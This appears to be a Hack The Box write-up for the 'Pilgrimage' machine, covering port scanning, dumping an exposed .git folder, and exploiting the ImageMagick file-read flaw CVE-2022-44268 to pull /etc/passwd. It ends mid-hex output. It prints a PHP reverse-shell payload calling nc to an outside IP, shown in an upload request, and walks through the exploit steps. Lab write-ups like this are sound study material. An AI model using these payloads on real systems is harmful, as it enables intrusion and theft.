


# Pilgrimage
## Enumeration
### Port Scanning
The system has two open ports: 22 and 80:
```
┌──(kali㉿kali)-[~]
└─$ nmap $IP
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-18 07:10 EST
Nmap scan report for 10.10.11.219
Host is up (0.055s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 1.80 seconds

┌──(kali㉿kali)-[~]
└─$ nmap -sV -sC $IP
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-18 07:10 EST
Nmap scan report for 10.10.11.219
Host is up (0.053s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 20:be:60:d2:95:f6:28:c1:b7:e9:e8:17:06:f1:68:f3 (RSA)
|   256 0e:b6:a6:a8:c9:9b:41:73:74:6e:70:18:0d:5f:e0:af (ECDSA)
|_  256 d1:4e:29:3c:70:86:69:b4:d7:2c:c8:0b:48:6e:98:04 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://pilgrimage.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.11 seconds

┌──(kali㉿kali)-[~]
└─$ nmap -p- $IP
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-18 07:10 EST
Nmap scan report for 10.10.11.219
Host is up (0.034s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 10.38 seconds

┌──(kali㉿kali)-[~]
└─$ 
```

### HTTP
If we access the website we find an interface to upload and shrink images:


Also, we got a login page and a register were we can create our own user.

If we upload an image file, we get a link like http://pilgrimage.htb/shrunk/6558abb7d1005.png were we can download the shrinked image.

#### File uploading
My first guess at the point is to upload an executable file that will be executed by the server if we access it. The login and register pages are PHP scripts (http://pilgrimage.htb/login.php and http://pilgrimage.htb/register.php). So let's try a PHP payload:
```php
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.15.14 8081 >/tmp/f'); ?>
```

But uploading it as `payload.php` wasn't successful:


As well as `payload.png`.

At this point I intercepted the traffic with Burp and send the following POST request:
```
POST / HTTP/1.1
Host: pilgrimage.htb
Content-Length: 283
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://pilgrimage.htb
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryYHuRjwoA5TAB88vU
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://pilgrimage.htb/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=4qf4up4cu8813vbheqkd7er5cj
Connection: close

------WebKitFormBoundaryYHuRjwoA5TAB88vU
Content-Disposition: form-data; name="toConvert"; filename="payload.png"
Content-Type: image/png

<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.15.14 8081 >/tmp/f'); ?>

------WebKitFormBoundaryYHuRjwoA5TAB88vU--
```

But still got the error message. Also, the response doesn't show any further hint for the error message.

So maybe we have to find more or other information.

#### Directory Enumeration
If we enumerate the web directories we find a `.git` folder:
```
┌──(kali㉿kali)-[~]
└─$ feroxbuster --url http://pilgrimage.htb/ --depth 2 --wordlist /usr/share/seclists/Discovery/Web-Content/common.txt

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://pilgrimage.htb/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/common.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 2
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET        7l        9w      153c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        7l       11w      153c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        7l       11w      169c http://pilgrimage.htb/.git => http://pilgrimage.htb/.git/
200      GET        1l        2w       23c http://pilgrimage.htb/.git/HEAD
200      GET        5l       13w       92c http://pilgrimage.htb/.git/config
200      GET       16l       58w     5158c http://pilgrimage.htb/.git/index
200      GET      186l      505w     4928c http://pilgrimage.htb/assets/css/owl.css
302      GET        0l        0w        0c http://pilgrimage.htb/logout.php => http://pilgrimage.htb/
200      GET        5l       27w     1031c http://pilgrimage.htb/assets/js/popup.js
200      GET      171l      403w     6173c http://pilgrimage.htb/register.php
200      GET      178l      395w     5292c http://pilgrimage.htb/assets/js/custom.js
302      GET        0l        0w        0c http://pilgrimage.htb/dashboard.php => http://pilgrimage.htb/login.php
200      GET       94l      234w     3576c http://pilgrimage.htb/assets/css/custom.css
200      GET      171l      403w     6166c http://pilgrimage.htb/login.php
200      GET        7l      942w    60110c http://pilgrimage.htb/vendor/bootstrap/js/bootstrap.min.js
200      GET     2349l     5229w    50334c http://pilgrimage.htb/assets/css/templatemo-woox-travel.css
200      GET       11l      552w    57997c http://pilgrimage.htb/assets/css/animate.css
200      GET        2l     1283w    86927c http://pilgrimage.htb/vendor/jquery/jquery.min.js
200      GET     6805l    11709w   123176c http://pilgrimage.htb/assets/css/fontawesome.css
200      GET       15l     1928w   119998c http://pilgrimage.htb/assets/js/isotope.min.js
200      GET        7l     2223w   194705c http://pilgrimage.htb/vendor/bootstrap/css/bootstrap.min.css
301      GET        7l       11w      169c http://pilgrimage.htb/assets => http://pilgrimage.htb/assets/
200      GET    16582l    60225w   485937c http://pilgrimage.htb/assets/js/tabs.js
200      GET      198l      494w     7621c http://pilgrimage.htb/
200      GET      198l      494w     7621c http://pilgrimage.htb/index.php
301      GET        7l       11w      169c http://pilgrimage.htb/.git/hooks => http://pilgrimage.htb/.git/hooks/
301      GET        7l       11w      169c http://pilgrimage.htb/assets/css => http://pilgrimage.htb/assets/css/
301      GET        7l       11w      169c http://pilgrimage.htb/.git/info => http://pilgrimage.htb/.git/info/
301      GET        7l       11w      169c http://pilgrimage.htb/.git/logs => http://pilgrimage.htb/.git/logs/
301      GET        7l       11w      169c http://pilgrimage.htb/.git/objects => http://pilgrimage.htb/.git/objects/
301      GET        7l       11w      169c http://pilgrimage.htb/assets/images => http://pilgrimage.htb/assets/images/
301      GET        7l       11w      169c http://pilgrimage.htb/assets/js => http://pilgrimage.htb/assets/js/
301      GET        7l       11w      169c http://pilgrimage.htb/tmp => http://pilgrimage.htb/tmp/
301      GET        7l       11w      169c http://pilgrimage.htb/vendor => http://pilgrimage.htb/vendor/
301      GET        7l       11w      169c http://pilgrimage.htb/vendor/jquery => http://pilgrimage.htb/vendor/jquery/
[####################] - 7s     23646/23646   0s      found:33      errors:0      
[####################] - 4s      4724/4724    1349/s  http://pilgrimage.htb/ 
[####################] - 3s      4724/4724    1496/s  http://pilgrimage.htb/.git/ 
[####################] - 3s      4724/4724    1481/s  http://pilgrimage.htb/assets/ 
[####################] - 3s      4724/4724    1444/s  http://pilgrimage.htb/tmp/ 
[####################] - 3s      4724/4724    1378/s  http://pilgrimage.htb/vendor/

┌──(kali㉿kali)-[~]
└─$ 
```

We can now enumerate the `.git` folder further:
```
┌──(kali㉿kali)-[~]
└─$ feroxbuster --url http://pilgrimage.htb/.git/ --depth 2 --wordlist /usr/share/seclists/Discovery/Web-Content/versioning_metafiles.txt

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://pilgrimage.htb/.git/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/versioning_metafiles.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 2
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET        7l        9w      153c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        7l       11w      153c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET        5l       13w       92c http://pilgrimage.htb/.git/config
200      GET        1l        2w       23c http://pilgrimage.htb/.git/HEAD
200      GET       49l      199w     1788c http://pilgrimage.htb/.git/COMMIT_EDITMSG
200      GET        1l       10w       73c http://pilgrimage.htb/.git/description
200      GET       16l       58w     5158c http://pilgrimage.htb/.git/index
[####################] - 1s       119/119     0s      found:5       errors:0      
[####################] - 0s       119/119     260/s   http://pilgrimage.htb/.git/

┌──(kali㉿kali)-[~]
└─$
```

## Git
An interesting file inhere is the `http://pilgrimage.htb/.git/COMMIT_EDITMSG`, because it reveals information of the commits.

In this case of the initial commit and all added files:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/pilgrimage]
└─$ curl http://pilgrimage.htb/.git/COMMIT_EDITMSG
Pilgrimage image shrinking service initial commit.
# Please enter the commit message for your changes. Lines starting
# with '#' will be ignored, and an empty message aborts the commit.
#
# Author:    emily <emily@pilgrimage.htb>
#
# On branch master
#
# Initial commit
#
# Changes to be committed:
# new file:   assets/bulletproof.php
# new file:   assets/css/animate.css
# new file:   assets/css/custom.css
# new file:   assets/css/flex-slider.css
# new file:   assets/css/fontawesome.css
# new file:   assets/css/owl.css
# new file:   assets/css/templatemo-woox-travel.css
# new file:   assets/images/banner-04.jpg
# new file:   assets/images/cta-bg.jpg
# new file:   assets/js/custom.js
# new file:   assets/js/isotope.js
# new file:   assets/js/isotope.min.js
# new file:   assets/js/owl-carousel.js
# new file:   assets/js/popup.js
# new file:   assets/js/tabs.js
# new file:   assets/webfonts/fa-brands-400.ttf
# new file:   assets/webfonts/fa-brands-400.woff2
# new file:   assets/webfonts/fa-regular-400.ttf
# new file:   assets/webfonts/fa-regular-400.woff2
# new file:   assets/webfonts/fa-solid-900.ttf
# new file:   assets/webfonts/fa-solid-900.woff2
# new file:   assets/webfonts/fa-v4compatibility.ttf
# new file:   assets/webfonts/fa-v4compatibility.woff2
# new file:   dashboard.php
# new file:   index.php
# new file:   login.php
# new file:   logout.php
# new file:   magick
# new file:   register.php
# new file:   vendor/bootstrap/css/bootstrap.min.css
# new file:   vendor/bootstrap/js/bootstrap.min.js
# new file:   vendor/jquery/jquery.js
# new file:   vendor/jquery/jquery.min.js
# new file:   vendor/jquery/jquery.min.map
# new file:   vendor/jquery/jquery.slim.js
# new file:   vendor/jquery/jquery.slim.min.js
# new file:   vendor/jquery/jquery.slim.min.map
#

┌──(kali㉿kali)-[~/Desktop/hackthebox/pilgrimage]
└─$ 
```

We found several files and a potential username: `emily <emily@pilgrimage.htb>`

### Git-Dumper
We can also use tools to dump the `.git` folder like [git-dumper](https://github.com/arthaud/git-dumper).

If we run the dumper we get the whole folder:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/pilgrimage]
└─$ /home/kali/.local/bin/git-dumper http://pilgrimage.htb .git
[-] Testing http://pilgrimage.htb/.git/HEAD [200]
[-] Testing http://pilgrimage.htb/.git/ [403]
[-] Fetching common files
[-] Fetching http://pilgrimage.htb/.gitignore [404]
[-] http://pilgrimage.htb/.gitignore responded with status code 404
[-] Fetching http://pilgrimage.htb/.git/COMMIT_EDITMSG [200]
[-] Fetching http://pilgrimage.htb/.git/hooks/post-commit.sample [404]
[-] http://pilgrimage.htb/.git/hooks/post-commit.sample responded with status code 404

[...]

[-] Running git checkout .

┌──(kali㉿kali)-[~/Desktop/hackthebox/pilgrimage]
└─$ cd .git

┌──(kali㉿kali)-[~/Desktop/hackthebox/pilgrimage/.git]
└─$ ls -al 
total 26972
drwxr-xr-x 5 kali kali     4096 Nov 18 08:27 .
drwxr-xr-x 5 kali kali     4096 Nov 18 08:27 ..
drwxr-xr-x 6 kali kali     4096 Nov 18 08:27 assets
-rwxr-xr-x 1 kali kali     5538 Nov 18 08:27 dashboard.php
drwxr-xr-x 7 kali kali     4096 Nov 18 08:27 .git
-rwxr-xr-x 1 kali kali     9250 Nov 18 08:27 index.php
-rwxr-xr-x 1 kali kali     6822 Nov 18 08:27 login.php
-rwxr-xr-x 1 kali kali       98 Nov 18 08:27 logout.php
-rwxr-xr-x 1 kali kali 27555008 Nov 18 08:27 magick
-rwxr-xr-x 1 kali kali     6836 Nov 18 08:27 register.php
drwxr-xr-x 4 kali kali     4096 Nov 18 08:27 vendor

┌──(kali㉿kali)-[~/Desktop/hackthebox/pilgrimage/.git]
└─$ 
```

### ImageMagick
The file `magick` is a CLI tool from ImageMagick: https://imagemagick.org/script/command-line-tools.php
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/pilgrimage]
└─$ file magick 
magick: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=9fdbc145689e0fb79cb7291203431012ae8e1911, stripped

┌──(kali㉿kali)-[~/Desktop/hackthebox/pilgrimage]
└─$ ./magick
Error: Invalid argument or not enough arguments

Usage: magick tool [ {option} | {image} ... ] {output_image}
Usage: magick [ {option} | {image} ... ] {output_image}
       magick [ {option} | {image} ... ] -script {filename} [ {script_args} ...]
       magick -help | -version | -usage | -list {option}


┌──(kali㉿kali)-[~/Desktop/hackthebox/pilgrimage/.git]
└─$ ./magick --version
Version: ImageMagick 7.1.0-49 beta Q16-HDRI x86_64 c243c9281:20220911 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): bzlib djvu fontconfig freetype jbig jng jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (7.5)

┌──(kali㉿kali)-[~/Desktop/hackthebox/pilgrimage/.git]
└─$ 
```
The executable runs the version `7.1.0-49` and probably used to shrink the images. We will come back to this information later.

### PHP Files
We also found the PHP-Files that are used by the application. `login.php`, `logout.php` and `register.php` are responsible for the user login and registration.

The `index.php` processes the shrinking process:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/pilgrimage/.git]
└─$ grep -r magick *
index.php:      exec("/var/www/pilgrimage.htb/magick convert /var/www/pilgrimage.htb/tmp/" . $upload->getName() . $mime . " -resize 50% /var/www/pilgrimage.htb/shrunk/" . $newname . $mime);

┌──(kali㉿kali)-[~/Desktop/hackthebox/pilgrimage/.git]
└─$ 
```

To be exact, the following function handles it:
```php
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
  $image = new Bulletproof\Image($_FILES);
  if($image["toConvert"]) {
    $image->setLocation("/var/www/pilgrimage.htb/tmp");
    $image->setSize(100, 4000000);
    $image->setMime(array('png','jpeg'));
    $upload = $image->upload();
    if($upload) {
      $mime = ".png";
      $imagePath = $upload->getFullPath();
      if(mime_content_type($imagePath) === "image/jpeg") {
        $mime = ".jpeg";
      }
      $newname = uniqid();
      exec("/var/www/pilgrimage.htb/magick convert /var/www/pilgrimage.htb/tmp/" . $upload->getName() . $mime . " -resize 50% /var/www/pilgrimage.htb/shrunk/" . $newname . $mime);
      unlink($upload->getFullPath());
      $upload_path = "http://pilgrimage.htb/shrunk/" . $newname . $mime;
      if(isset($_SESSION['user'])) {
        $db = new PDO('sqlite:/var/db/pilgrimage');
        $stmt = $db->prepare("INSERT INTO `images` (url,original,username) VALUES (?,?,?)");
        $stmt->execute(array($upload_path,$_FILES["toConvert"]["name"],$_SESSION['user']));
      }
      header("Location: /?message=" . $upload_path . "&status=success");
    }
    else {
      header("Location: /?message=Image shrink failed&status=fail");
    }
  }
  else {
    header("Location: /?message=Image shrink failed&status=fail");
  }
}
```

### SQLite database
In the PHP-Files we find information about the database as well. This application uses a SQLite database:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/pilgrimage/.git]
└─$ grep -r sqlite *
dashboard.php:  $db = new PDO('sqlite:/var/db/pilgrimage');
index.php:        $db = new PDO('sqlite:/var/db/pilgrimage');
login.php:  $db = new PDO('sqlite:/var/db/pilgrimage');
register.php:  $db = new PDO('sqlite:/var/db/pilgrimage');
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/hackthebox/pilgrimage/.git]
└─$ 
```
This information could be interesting later.

## ImageMagick exploit
If we look up for the version `7.1.0-49` we can find an arbitrary file read exploit:
```
┌──(kali㉿kali)-[~]
└─$ searchsploit imagemagick
------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                           |  Path
------------------------------------------------------------------------------------------------------------------------- ---------------------------------
GeekLog 2.x - 'ImageImageMagick.php' Remote File Inclusion                                                               | php/webapps/3946.txt
ImageMagick - Memory Leak                                                                                                | multiple/local/45890.sh
ImageMagick 6.8.8-4 - Local Buffer Overflow (SEH)                                                                        | windows/local/31688.pl
ImageMagick 6.9.3-9 / 7.0.1-0 - 'ImageTragick' Delegate Arbitrary Command Execution (Metasploit)                         | multiple/local/39791.rb
ImageMagick 6.x - '.PNM' Image Decoding Remote Buffer Overflow                                                           | linux/dos/25527.txt
ImageMagick 6.x - '.SGI' Image File Remote Heap Buffer Overflow                                                          | linux/dos/28383.txt
ImageMagick 7.0.1-0 / 6.9.3-9 - 'ImageTragick ' Multiple Vulnerabilities                                                 | multiple/dos/39767.txt
ImageMagick 7.1.0-49 - Arbitrary File Read                                                                               | multiple/local/51261.txt
ImageMagick 7.1.0-49 - DoS                                                                                               | php/dos/51256.txt
Wordpress Plugin ImageMagick-Engine 1.7.4 - Remote Code Execution (RCE) (Authenticated)                                  | php/webapps/51025.txt
------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

┌──(kali㉿kali)-[~]
└─$ 
```

From https://www.metabaseq.com/imagemagick-zero-days/ :

_When ImageMagick parses a PNG file, for example in a resize operation when receiving an image, the convert process could be left waiting for stdin input leading to a Denial of Service since the process won’t be able to process other images._

_A malicious actor could craft a PNG or use an existing one and add a textual chunk type (e.g., tEXt). These types have a keyword and a text string. If the keyword is the string “profile” (without quotes) then ImageMagick will interpret the text string as a filename and will load the content as a raw profile. If the specified filename is “-“ (a single dash) ImageMagick will try to read the content from standard input potentially leaving the process waiting forever._

Meaning that we can create a flawed image, upload it and the downloadable compressed image includes the content of a remote file.

### CVE-2022-44268 PoC
A quick lookup for CVE-2022-44268 brings us to this [PoC](https://github.com/Sybil-Scan/imagemagick-lfi-poc).

We can run it like the following to get the content of the file `/etc/passwd` on the server:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/pilgrimage/imagemagick-lfi-poc]
└─$ python generate.py -f "/etc/passwd" -o exploit.png

   [>] ImageMagick LFI PoC - by Sybil Scan Research <research@sybilscan.com>
   [>] Generating Blank PNG
   [>] Blank PNG generated
   [>] Placing Payload to read /etc/passwd
   [>] PoC PNG generated > exploit.png

┌──(kali㉿kali)-[~/Desktop/hackthebox/pilgrimage/imagemagick-lfi-poc]
└─$ 
```

If we upload this image we can download the compressed file:


With the command `identify -verbose` of ImageMagick we will find this information:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/pilgrimage/imagemagick-lfi-poc]
└─$ identify -verbose 655a65e420bce.png
Image:
  Filename: 655a65e420bce.png
  Format: PNG (Portable Network Graphics)
  Mime type: image/png
  Class: DirectClass
  Geometry: 128x128+0+0
  Units: Undefined
  Colorspace: sRGB
  Type: TrueColor
  Base type: Undefined
  Endianness: Undefined
  Depth: 8-bit
  Channel depth:
    red: 8-bit
    green: 8-bit
    blue: 8-bit
  Channel statistics:
    Pixels: 16384
    Red:
      min: 1  (0.00392157)
      max: 253 (0.992157)
      mean: 127 (0.498039)
      standard deviation: 73.8482 (0.289601)
      kurtosis: -1.20334
      skewness: 4.86834e-13
      entropy: 1
    Green:
      min: 0  (0)
      max: 254 (0.996078)
      mean: 43.0449 (0.168804)
      standard deviation: 60.431 (0.236984)
      kurtosis: 0.701623
      skewness: 1.3265
      entropy: 0.620203
    Blue:
      min: 1  (0.00392157)
      max: 253 (0.992157)
      mean: 127 (0.498039)
      standard deviation: 73.8482 (0.289601)
      kurtosis: -1.20334
      skewness: 2.05705e-14
      entropy: 1
  Image statistics:
    Overall:
      min: 0  (0)
      max: 254 (0.996078)
      mean: 99.015 (0.388294)
      standard deviation: 69.3758 (0.272062)
      kurtosis: -1.20718
      skewness: 0.300562
      entropy: 0.873401
  Rendering intent: Perceptual
  Gamma: 0.45455
  Chromaticity:
    red primary: (0.64,0.33)
    green primary: (0.3,0.6)
    blue primary: (0.15,0.06)
    white point: (0.3127,0.329)
  Background color: white
  Border color: srgb(223,223,223)
  Matte color: grey74
  Transparent color: black
  Interlace: None
  Intensity: Undefined
  Compose: Over
  Page geometry: 128x128+0+0
  Dispose: Undefined
  Iterations: 0
  Compression: Zip
  Orientation: Undefined
  Properties:
    date:create: 2023-11-19T19:45:51+00:00
    date:modify: 2023-11-19T19:45:51+00:00
    date:timestamp: 2023-11-19T19:45:40+00:00
    png:bKGD: chunk was found (see Background color, above)
    png:cHRM: chunk was found (see Chromaticity, above)
    png:gAMA: gamma=0.45455 (See Gamma, above)
    png:IHDR.bit-depth-orig: 8
    png:IHDR.bit_depth: 8
    png:IHDR.color-type-orig: 2
    png:IHDR.color_type: 2 (Truecolor)
    png:IHDR.interlace_method: 0 (Not interlaced)
    png:IHDR.width,height: 128, 128
    png:sRGB: intent=0 (Perceptual Intent)
    png:text: 4 tEXt/zTXt/iTXt chunks were found
    png:tIME: 2023-11-19T19:45:40Z
    Raw profile type: 

    1437
726f6f743a783a303a303a726f6f743a2f726f6f743a2f62696e2f626173680a6461656d
6f6e3a783a313a313a6461656d6f6e3a2f7573722f7362696e3a2f7573722f7362696e2f
6e6f6c6f67696e0a62696e3a783a323a323a62696e3a2f62696e3a2f7573722f7362696e
2f6e6f6c6f67696e0a7379733a783a333a333a7379733a2f6465763a2f7573722f736269
6e2f6e6f6c6f67696e0a73796e633a783a343a36353533343a73796e633a2f62696e3a2f
62696e2f73796e630a67616d65733a783a353a36303a67616d65733a2f7573722f67616d
65733a2f7573722f7362696e2f6e6f6c6f67696e0a6d616e3a783a363a31323a6d616e3a
2f7661722f63616368652f6d616e3a2f7573722f7362696e2f6e6f6c6f67696e0a6c703a
783a373a373a6c703a2f7661722f73706f6f6c2f6c70643a2f7573722f7362696e2f6e6f
6c6f67696e0a6d61696c3a783a383a383a6d61696c3a2f7661722f6d61696c3a2f757372
2f7362696e2f6e6f6c6f67696e0a6e6577733a783a393a393a6e6577733a2f7661722f73
706f6f6c2f6e6577733a2f7573722f7362696e2f6e6f6c6f67696e0a757563703a783a31
303a31303a757563703a2f7661722f73706f6f6c2f757563703a2f7573722f7362696e2f
6e6f6c6f67696e0a70726f78793a783a31333a31333a70726f78793a2f62696e3a2f7573
722f7362696e2f6e6f6c6f67696e0a7777772d646174613a783a33333a33333a7777772d
646174613a2f7661722f7777773a2f7573722f7362696e2f6e6f6c6f67696e0a6261636b
75703a783a33343a33343a6261636b75703a2f7661722f6261636b7570733a2f7573722f
7362696e2f6e6f6c6f67696e0a6c6973743a783a33383a33383a4d61696c696e67204c69
7374204d616e616765723a2f7661722f6c6973743a2f7573722f7362696e2f6e6f6c6f67
696e0a6972633a783a33393a33393a697263643a2f72756e2f697263643a2f7573722f73
62696e2f6e6f6c6f67696e0a676e6174733a783a34313a34313a476e617473204275672d
5265706f7274696e672053797374656d202861646d696e293a2f7661722f6c69622f676e
6174733a2f7573722f7362696e2f6e6f6c6f67696e0a6e6f626f64793a783a3635353334
3a36353533343a6e6f626f64793a2f6e6f6e6578697374656e743a2f7573722f7362696e
2f6e6f6c6f67696e0a5f6170743a783a3130303a36353533343a3a2f6e6f6e6578697374
656e743a2f7573722f7362696e2f6e6f6c6f67696e0a73797374656d642d6e6574776f72
6b3a783a3130313a3130323a73797374656d64204e6574776f726b204d616e6167656d65
6e742c2c2c3a2f72756e2f73797374656d643a2f7573722f7362696e2f6e6f6c6f67696e
0a73797374656d642d7265736f6c76653a783a3130323a3130333a73797374656d642052
65736f6c7665722c2c2c3a2f72756e2f73797374656d643a2f7573722f7362696e2f6e6f
6c6f67696e0a6d6573736167656275733a783a3130333a3130393a3a2f6e6f6e65786973
74656e743a2f7573722f7362696e2f6e6f6c6f67696e0a73797374656d642d74696d6573
796e633a783a3130343a3131303a73797374656d642054696d652053796e6368726f6e69
7a6174696f6e2c2c2c3a2f72756e2f73797374656d643a2f7573722f7362696e2f6e6f6c
